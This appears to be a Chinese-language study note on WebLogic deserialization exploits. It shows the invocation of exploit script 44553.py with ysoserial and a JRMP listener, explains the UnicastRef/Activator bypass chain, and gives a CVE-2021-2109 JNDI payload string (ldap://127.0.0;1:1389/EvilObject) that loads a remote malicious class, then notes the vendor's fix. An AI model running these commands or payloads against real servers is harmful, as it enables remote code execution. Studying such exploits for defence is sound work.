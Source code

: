 分析一下：估计就是通过python 脚本，给weblogic发送了一个恶意序列化串，然后反序列化会调用恶意服务端的恶意链子，再反序列化RCE。。呃呃呃感觉不太对，这样不就二次反序列化了嘛。

python2 44553.py 10.0.22.65 7001 ./ysoserial.jar 10.0.22.65 4444 JRMPClient

```java
 dip = sys.argv[1]  #10.0.22.65
    dport = int(sys.argv[2])#7001
    path_ysoserial = sys.argv[3]#./ysoserial.jar
    jrmp_listener_ip = sys.argv[4]#10.0.22.65
    jrmp_listener_port = sys.argv[5]#4444
    jrmp_client = sys.argv[6]#JRMPClient
```

利用java.rmi.registry.Registry，序列化RemoteObjectInvocationHandler，并使用UnicastRef和远端建立tcp连接，获取RMI registry，序列化之后发送给weblogic，weblogic会请求我们的JRMPListener，然后将获取的内容利用readObject()进行解析，导致恶意代码执行。

禁用了java.rmi.registry.Registry之后

![image-20240710102649791](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240710102649791.png)

直接反序列化UnicastRef对象
使用java.rmi.registry.Registry之外的类。廖新喜用的`java.rmi.activation.Activator`

## Weblogic CVE-2021-2109

我们可以通过LDAP协议方式实现JNDI注入攻击，加载远程CodeBase下的恶意类 ldap://127.0.0;1:1389/EvilObject，由于代码中会自动补全一个.因此可以将context定位为ldap://127.0.0将bindName定位为1:1389/EvilObject，最后的serverName必须为AdminServer，因此构造完整的PoC后，漏洞利用效果如图：：

修复方案，加了一个isValidJndiSchema函数
![image-20240710104753253](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240710104753253.png)
